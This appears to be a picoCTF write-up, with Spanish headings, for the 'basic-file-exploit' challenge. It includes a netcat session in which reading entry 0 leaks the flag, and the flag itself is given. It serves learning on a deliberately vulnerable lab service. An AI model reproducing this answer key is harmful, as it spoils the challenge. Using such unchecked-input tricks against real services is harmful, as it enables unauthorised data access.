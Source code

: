 # basic-file-exploit
## Descripción
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 52194` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/140/program-redacted.c).
## Pistas
Try passing in things the program doesn't expect. Like a string instead of a number.
## Solución
```bash
┌──(kali㉿kali)-[~/Documents/binaryExplloitation]
└─$ nc saturn.picoctf.net 52194
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
kaleb
kaleb
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
kaleb
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
                                                                                  
┌──(kali㉿kali)-[~/Documents/binaryExplloitation]
└─$ 
```
## Bandera
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}

## Notas Adicionales 


## Referencias